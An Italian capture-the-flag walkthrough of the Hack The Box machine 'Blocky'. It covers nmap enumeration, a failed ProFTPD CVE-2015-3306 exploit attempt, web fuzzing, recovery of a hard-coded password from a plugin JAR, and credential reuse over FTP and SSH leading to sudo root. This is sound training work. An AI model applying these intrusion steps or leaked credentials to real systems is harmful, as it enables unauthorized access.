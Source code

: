 ```yaml
---
title: "Blocky Walkthrough"
description: "Blocky è una macchina abbastanza semplice, basata su una reale. Dimostra i rischi legati a cattive pratiche nella gestione delle password e all’esposizione di file interni su sistemi accessibili pubblicamente. Inoltre, mette in evidenza un potenziale vettore d’attacco enorme: Minecraft. Esistono decine di migliaia di server pubblici, spesso gestiti da amministratori inesperti e giovani, diventando facile bersaglio."
author: dua2z3rr
date: 2025-09-09 1:00:00
categories: [Walkthrough]
tags: ["Area di Interesse: Common Applications", "Area di Interesse: Software & OS exploitation", "Area di Interesse: Authentication", "Area di Interesse: Web Application", "Area di Interesse: Vulnerability Assessment", "Vulnerabilità: Misconfiguration", "Vulnerabilità:  Hard-coded Credentials", "Codice: Java"]
image: /assets/img/blocky/blocky-resized.png"
---
```


## Enumerazione Esterna

### Nmap

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap -vv -p- 10.10.10.37
<SNIP>
PORT      STATE  SERVICE   REASON
21/tcp    open   ftp       syn-ack ttl 63
22/tcp    open   ssh       syn-ack ttl 63
80/tcp    open   http      syn-ack ttl 63
8192/tcp  closed sophos    reset ttl 63
25565/tcp open   minecraft syn-ack ttl 63

<SNIP>

┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap -vv -p 21,22,80,8192,25565 -sC -sV 10.10.10.37
<SNIP>
PORT      STATE  SERVICE   REASON         VERSION
21/tcp    open   ftp       syn-ack ttl 63 ProFTPD 1.3.5a
22/tcp    open   ssh       syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqVh031OUgTdcXsDwffHKL6T9f1GfJ1/x/b/dywX42sDZ5m1Hz46bKmbnWa0YD3LSRkStJDtyNXptzmEp31Fs2DUndVKui3LCcyKXY6FSVWp9ZDBzlW3aY8qa+y339OS3gp3aq277zYDnnA62U7rIltYp91u5VPBKi3DITVaSgzA8mcpHRr30e3cEGaLCxty58U2/lyCnx3I0Lh5rEbipQ1G7Cr6NMgmGtW6LrlJRQiWA1OK2/tDZbLhwtkjB82pjI/0T2gpA/vlZJH0elbMXW40Et6bOs2oK/V2bVozpoRyoQuts8zcRmCViVs8B3p7T1Qh/Z+7Ki91vgicfy4fl
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNgEpgEZGGbtm5suOAio9ut2hOQYLN39Uhni8i4E/Wdir1gHxDCLMoNPQXDOnEUO1QQVbioUUMgFRAXYLhilNF8=
|   256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILqVrP5vDD4MdQ2v3ozqDPxG1XXZOp5VPpVsFUROL6Vj
80/tcp    open   http      syn-ack ttl 63 Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp  closed sophos    reset ttl 63
25565/tcp open   minecraft syn-ack ttl 63 Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Analiziamo l'output di nmap. Abbiamo delle porte classiche come la 21 (ftp), la 22 (ssh) e la 80 (http). Abbiamo una porta chiusa con servizio sophos.

> Sophos Remote Management System (RMS) allows administrators to remotely manage, update, and monitor Sophos security products across an enterprise. It leverages a proprietary communication protocol to facilitate command delivery, status reporting, and policy update enforcement between endpoint agents and the management console..

Infine, sulla porta 25565 abbiamo... MINECRAFT?!

### HTTP

Accediamo alla porta 80.

![Desktop View](/assets/img/blocky/blocky-home-page.png)

Questa box si basa interamente su minecraft. Continuiamo a esplorare la homepage del sito in questione.

![Desktop View](/assets/img/blocky/blocky-home-page-2.png)

In fondo alla home page scopriamo che il sito è stato creato con wordpress e che ci potrebbe essere la presenza di un plugin per le statistiche dei giocatori. Possiamo inoltre accedere ad una pagina di **log in** su wordpress, ma non abbiamo le credenziali. Enumeriamo gli altri servizi aperti prima di prcedere con un brute-force o fuzzing.

L'unico post è stato scritto da uno user chiamato notch (ovviamente...). Questo potrebbe servirci in futuro.

### FTP

L'anonymous access non è abilitato, quindi non possiamo accedere al server ftp. ci serviranno delle credenziali.

### Ricerca Exploit

Cerchiamo se esistono exploit per questa versione di ftp.

![Desktop View](/assets/img/blocky/blocky-ftp-vuln-1.png)

Proviamo con questo.

```shell
┌─[✗]─[dua2z3rr@parrot]─[~/Boxes/blocky/exploit-CVE-2015-3306]
└──╼ $python3 exploit.py --host 10.10.10.37 --port 21 --path "/var/www/wordpress/"
[+] CVE-2015-3306 exploit by t0kx
[+] Exploiting 10.10.10.37:21
[!] Failed
```

L'exploit fallisce. Continuiamo la nostra enumerazione

### Fuzzing

Dopo aver utilizzato il comando `ffuf -w /home/dua2z3rr/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u http://blocky.htb/FUZZ -ic -fw 20 -recursion` veniamo a conoscenza della directory `plugins` dove possiamo scaricare 2 file jar.

![Desktop View](/assets/img/blocky/blocky-plugins-dir.png)

Scarichiamoli.

## Reverse Engineering

### BlockyCore.class

Nel primo JAR troviamo il source code del primo plugin.

![Desktop View](/assets/img/blocky/blocky-plugin-source.png)

Utilizziamo un sito per leggere il bytecode.

![Desktop View](/assets/img/blocky/blocky-class.png)

Troviamo la stringa `8YsqfCTnvxAUeduzjNSXe22` per accedere a un database. Proviamola come password nel server ftp con user notch.

### FTP

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $ftp 10.10.10.37
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:dua2z3rr): notch
331 Password required for notch
Password: 
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Prendiamo la user flag.

## Shell come notch

Colleghiamoci come notch con ssh con le credenziali utilizzate per ftp e utilizziamo il comando `sudo -l`.

```shell
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Non dobbiamo fare alcuna privilege escalation. Possiamo diventare root semplicemente utilizzando `sudo -i`.

```shell
notch@Blocky:~$ sudo -i
root@Blocky:~#
```

Prendiamo la root flag e terminiamo la box.
